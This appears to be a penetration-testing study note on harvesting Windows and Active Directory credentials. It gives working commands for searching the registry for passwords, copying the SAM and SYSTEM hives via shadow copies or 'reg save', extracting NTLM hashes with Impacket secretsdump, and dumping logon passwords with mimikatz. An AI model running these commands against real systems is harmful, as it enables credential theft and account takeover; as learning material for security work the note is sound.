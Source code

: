 # Active Directory Credentials Harvesting


## Common Credentials Locations

### Clear-Text Files

Some places to look around include:
- Command history
    - Powershell: `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- Config files 
- Other files related to Windows Applications, such as Internet Browsers, Email Clients etc.
- Backup files
- Shared files/folders/repositories
- Registry
    - `reg query HKLM /f password /t REG_SZ /s` - `/f` SearchString; `/t` Type; `/s` Recursive (searches subkeys too)
    - Can replace `HKLM` with `HKCU` instead for current user key info
- Source code

### Other Locations

Other locations include:
- Database files
- Password managers
- Memory
- Active Directory
    - Users' description
    - Group Policy SYSVOL
    - NTDS (NT Directory Services - contains AD data)
    - AD Attacks e.g. Kerberoasting


## Local Windows Harvesting

### Keystrokes

Self-explanatory. Not really a penetesting thing, but more a red-teaming thing.

### SAM - Security Account Manager

- Database containing local account information, including usernames + passwords
- `C:\Windows\System32\config\sam`
- Encrypted storage and cannot be accessed by any user while the Windows OS is running
- Decryption keys are stored in the `system` file - `C:\Windows\System32\config\system`
- ...but it *can* still be accessed:

**Metasploit | HashDump**

**Microsoft Volume shadow copy service**

This service is used to make backups of files or entire drives. By doing this we can dump SAM:
1. Run `cmd.exe` prompt **as administrator** (important !)
2. Create shadow copy of `C:\` drive using `wmic`
3. Verify successful creation
4. Copy SAM database from shadow copy of volume to attacking machine for hash extraction.

In terms of commands, this is what we run:
```
wmic shadowcopy call create Volume='C:\'

vssadmin list shadows

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\Users\<username>\Desktop\sam-shadow-copy

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\<username>\Desktop\system-shadow-copy
```

**Registry Hives**

Can dump SAM database content via Windows Registry using `reg.exe`:
```
reg save HKLM\SAM C:\Users\<username>\Desktop\sam-reg
reg save HKLM\SYSTEM C:\Users\<username>\Desktop\system-reg
```
Then SCP files back to attacking machine for extracting.

**Extracting Hashes**

Can use Impacket SecretsDump script (https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) with SAM and SYSTEM files passed as parameters to decrypt secrets:

```
python3.9 impacket/examples/secretsdump.py -sam /path/to/sam -system /path/to/system LOCAL
```

This will only yield NTLM hashes for local account access. For Active Directory NTLM hashes (which Metasploit HashDump gives), an additional hive is needed: `HKLM\Security` - this file also includes Kerberos keys, domain-cached credentials and security questions

Alternatively can use mimikatz `sekurlsa` module:

```
privilege::debug
sekurlsa::logonPasswords
```

Can then either HashCat these bitches for plaintext creds or exploit via other means e.g. Pass-the-Hash attacks


